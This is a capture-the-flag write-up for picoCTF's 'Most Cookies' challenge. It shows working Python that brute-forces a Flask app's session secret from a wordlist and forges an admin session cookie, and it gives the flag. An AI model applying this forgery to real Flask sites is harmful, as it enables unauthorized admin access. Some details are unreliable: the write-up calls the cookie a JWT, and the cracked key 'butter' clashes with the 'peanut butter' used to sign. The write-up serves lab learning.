 # Most Cookies → 150 Pts.

1. We have a same cookie page as the last one (more cookies)
2. We write snickerdoodle and get our cookie in an encrypted format.
3. We have given [server.py](http://server.py) which has

``` python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

4. What we can see is the wordlist we have here. 

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

1. This are the words which will give us our cookie. 
2. The JWT token is saying very_auth = snickerdoodle when we decode it so we need very_auth to say admin and then copy that very encoded JWT token and create a it as login cookie but how?
3. So we need a key and then we need to create very_auth = admin

``` python 
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```
Output:
`
butter
{'very_auth': 'snickerdoodle'}
`

8. We used the snickerdoodle JWT Token to get the key and now as we have key we can now make our own JWT Token.

``` python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'peanut butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))

```

`
💡 eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y4We0g.Cpg8E8mSastFPqOfoJnhhk4Im70

`

9. Now we need to paste this JWT token as value in the cookie in session value and we will get out flag.

  `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`

Note: For every user the flag will be different.
